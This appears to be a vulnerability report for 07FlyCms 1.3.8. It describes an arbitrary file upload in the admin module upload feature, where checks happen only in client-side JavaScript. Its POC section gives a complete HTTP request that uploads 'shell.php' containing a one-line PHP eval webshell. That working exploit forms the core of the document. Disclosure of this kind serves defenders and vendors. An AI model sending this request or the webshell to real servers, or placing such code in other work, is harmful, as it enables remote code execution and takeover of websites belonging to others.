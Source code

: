# Vendor

零起飞

# Product

07FlyCms

# version

1.3.8

# Download 

https://gitee.com/07fly/cms-php.git

# Vulnerability

FileUpload

# Description

In the background of 07flycms, you can customize the upload module plug-in. There are file restrictions in the front-end js, but the uploaded files and file contents are not filtered on the server. As a result, attackers can directly upload webshell files after disabling the front-end js in the browser.

# POC
```
POST /admin/SysModule/upload/ajaxmodel/upload/uploadfilepath/sysmodule_1 HTTP/1.1
Host: 192.168.17.22
Content-Length: 205
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKP43F8RlsGW8OZGd
X-Requested-With: XMLHttpRequest
Accept: */*
Origin: http://192.168.17.22
Referer: http://192.168.17.22/admin/SysModule/upload
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: nSLI_2132_logintime=1722342602; csrf_8898a5=f6e4cbf6; Hm_lvt_afc2b8bbe5afca7b1c77c05445eadd98=1728259730; HMACCOUNT=4D4FE04291E73193; Hm_lpvt_afc2b8bbe5afca7b1c77c05445eadd98=1728259737; PHPSESSID=1q6iuem96njfmofjnb4j5bo41t; Hm_lvt_580632b24aea12910a1609b81ffaf23d=1728259949; Hm_lpvt_580632b24aea12910a1609b81ffaf23d=1728260578
Connection: close

------WebKitFormBoundaryKP43F8RlsGW8OZGd
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: text/php

<?php eval($_POST[1]);?>
------WebKitFormBoundaryKP43F8RlsGW8OZGd--
```
